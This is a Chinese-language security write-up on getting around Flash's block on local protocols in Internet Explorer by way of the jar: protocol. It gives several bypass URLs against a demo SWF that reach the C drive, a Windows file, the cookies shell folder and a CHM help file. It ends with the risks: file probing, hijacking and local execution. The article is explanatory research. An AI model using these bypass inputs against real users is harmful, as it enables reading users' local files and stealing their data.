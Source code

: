 * * *

在默认设置当中 flash 不会允许你去访问一些比较敏感的协议(通过 navigateToURL), 如:“File://” 或 “Ms-its:” 如果你直接尝试访问下面的链接:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=file://c:\

```

你就会收到这样的错误信息:

```
SecurityError: Error #2148: SWF file http://0me.me/demo/xss/flash/link\_protocol\_test.swf?input=file://c:\ cannot access local resource file://c:\. Only local-with-filesystem and trusted local SWF files may access local resources. 
at global/flash.net::navigateToURL() 
at MethodInfo-1() 
at flash.events::EventDispatcher/dispatchEventFunction() 
at flash.events::EventDispatcher/dispatchEvent() 
at com.powerflasher.SampleApp::link\_protocol\_test() 

```

我尝试着在chrome,firefox和IE中使用jar协议来绕过这一限制，但是我并没有在前两个浏览器中成功。这也就意味着这种方式只适用于IE。下面是一些bypass的例子:

利用 jar 协议访问 C 驱动器:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:file:/c:\

```

打开 C 驱动器中的某个文件:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:file:/c:\windows\Starter.xml

```

开启一些被限制的协议:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:shell:cookies

http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:mk:@MSITStore:C:\Windows\Help\mui\0409\certmgr.CHM::/html/355962c2-4f6b-4cbd- ab00-6e7ee4dddc16.htm

```

利用其它的一些技巧来访问 C 驱动器:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=\\/c:/

```

### 那么一旦这些限制被突破后，又会给用户带来什么样的风险呢？

```
1.被使用于一些敏感的本地文件探测（探测杀毒软件的类型和版本等等） 
2.通过目录和文件来收集用户信息 
3.使用drag and drop来劫持一些敏感的本地文件（我没有办法在这里给出一些给力的POC） 
4.代替用户来执行一些危害较大的本地文件（html.,swf等等）。进而实现数据的盗取，远程代码执行或一些其它猥琐的事情。 

```
